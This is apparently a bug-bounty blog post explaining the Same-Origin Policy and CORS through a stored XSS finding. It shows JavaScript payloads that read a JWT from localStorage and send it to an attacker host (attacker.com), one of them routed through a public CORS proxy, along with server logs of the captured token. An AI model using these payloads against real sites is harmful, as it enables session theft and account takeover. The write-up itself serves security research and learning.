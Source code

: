 ```yaml
---
layout: post
title: "On SOP, CORS, and the Hows of Exfiltrating JWTs via XSS"
author: "BoT"
tags: "bugbounty"
excerpt_separator: <!--more-->
---
```


In order words: how to not get c\*\*k-blocked by CORS.

<!--more-->

## Background

I recently found a stored Cross-site Scripting (XSS) vulnerability while hunting at a target.

While the bug class itself is not particularly spectacular, what interested me was on _what_ I do with it.

Showing an alert popup is fine and all, but impact of that level would likely only net me a `Medium` in severity at HackerOne. To justify for anything higher, I have to get creative on showing its possible disastrous impact.

Given that this is a stored XSS, I thought to myself:

> What if I were to demonstrate that an attacker can essentially farm for credentials of any authenticated users who browses the affected page? Account takeover would be trivial!

An idea worthy trying out, especially since the application stores the value of its JWT in the browser's `localStorage` as `token`.

I can simply swap out the typical payload of `alert(document.domain)` to one that retrieves the token and make a GET request to a server under my control.

Just like this; that should be it... right?

```javascript
fetch("https://attacker.com:8000/jwt=" + JSON.stringify(localStorage.getItem("token")));
```

Nope-- what greeted me was this sad little error message in the console instead:

> Access to fetch at 'https://attacker.com:8000/?jwt=xxx' from origin 'https://example.redacted.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

Very sad indeed.

## What in the world is CORS???

Now, before we go into that, let's first understand what is **Same-Origin Policy** (SOP).

Long story short, SOP prevents one origin from accessing resources of another origin.

Origin here is defined as `protocol://hostname:port`. In other words, for one origin to be evaluated as the same with another origin, the values of these three variables must be _exactly_ the same.

Let's take `https://example.com/latest` as an example:

- `http://example.com/myinfo` is allowed because they are of the same origin
- `http://example.com/users.json` is blocked because they are of different protocol and port
- `https://api.example.com/info` is blocked because they are of different domain
- `https://example.com:8443/files` is blocked because they are of different port

One might say:

> But `img` tag can still load images despite not being the same origin!

That is correct -- because SOP only prevents browser's JavaScript engine from reading the contents of a response, it _does_ allow the resource to be loaded onto the DOM of the page.

To reiterate, the purpose of SOP is not to prevent request for a resources from being sent. In fact, in the prior example, all of the requests would be sent, it is just that `https://example.com/latest` wouldn't be able to read the response of those marked as blocked.

With the rise of micro-services, strict SOP policies like these are just too stifling for developers, which leads us to **Cross-Origin Policy** (CORS).

Simply put, CORS helps to relax these restrictions by instructing the browser on which origin are allowed to access their resources via headers.

The most common CORS-related headers are:

- `Access-Control-Allow-Origin` that specifies which origin can access the response
- `Access-Control-Allow-Credentials` that indicates if the request can include cookies
- `Access-Control-Expose-Headers` that instructs the browser to expose certain headers to JavaScript

If If resources from `https://example.com/` were to be successfully loaded by `https://api.example.com/`, the response of the latter must have the following CORS header:

```
Access-Control-Allow-Origin: https://example.com
```

And this is why we had our little error: our `https://attacker.com/` doesn't return the necessary CORS header to allow our XSS payload to do its magic.

## Fixing the Errors...

> Wait a sec-- didn't you say that requests would still be sent? You should be able to see the incoming request which would have the JWT you sent!

Well, yes.

The request was indeed sent, but that didn't mean the delivered content was legible from the web server. In fact, it was a bunch of truly horrible-looking 400 Bad Request errors.

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('ô<\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü_ÆoTmç¸Æ<&°ø`«6ß¸ÍòëH ¹3E&z×vø¾ú®^umrÒ}³J  ô<"À+À/Ì©Ì¨À,À0À" 400 -
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('}Å|\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü0!>Êó*!SEu´cj<ºaaÅ3ãqH· â3qøÂµßS02§[¾(dà¥ÃGz|_t}Å|"À+À/Ì©Ì¨À,À0À" 400 -
```

No amount of Googling had enlightened me on what-the-loving-fuck is happening here (probably something to do with that missing CORS header), so I moved on to my next brilliant idea -- using CORS proxies!

CORS proxy essentially acts as an intermediary that helpfully adds the required `Access-Control-Allow-Origin` header. It's easy -- doesn't require server setups of any kind -- and already has many instances online for immediate use (e.g. `CORS Anywhere`, `alloworigin`).

One just needs to prefix the chosen proxy's URL to `https://attacker.com` and the proxy in question will:

1. Forward the request to `https://attacker.com`
2. Add the `Access-Control-Allow-Origin` header to the response from `https://attacker.com`
3. Passes that response, with that added header, back to the requesting `https://attacker.com`

Sounds simple! Now, let's try this out on the XSS payload...

```javascript
fetch(
  "https://api.allorigins.win/get?url=https://attacker.com:8000/jwt=" +
    JSON.stringify(localStorage.getItem("token"))
);
```

... and voilà, the JWT we are looking for on our attack server!

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ - - [16/Mar/2023 13:34:48] code 404, message File not found
██████████ - - [16/Mar/2023 13:34:48] "GET /%22eyJ0eXAiOiJKV1Q█████████.eyJhdWQiOiJiMjg█████████.Vnm3IUUeydxCItX█████████%22 HTTP/1.1" 404 -
```

## Conclusion

Ultimately, this vulnerability was triaged as `Medium` in severity. While disappointing, it was a good revision of the SOP and CORS concepts. In my opinion, it was a net gain.

Funny enough, it wasn't until everything was said and done that I realized scripts like [khalidx/simple_http_server_cors.py](https://gist.github.com/khalidx/6d6ebcd66b6775dae41477cffaa601e5) exist. Instead of resolving the CORS error in such a roundabout way, I could have just leached onto open-source tools that were already available.

Oh well.

## References

- My very expensive OSWE course-book 🙃
- [StackOverflow - Trying to use fetch and pass in mode: no-cors](https://stackoverflow.com/questions/43262121/trying-to-use-fetch-and-pass-in-mode-no-cors)

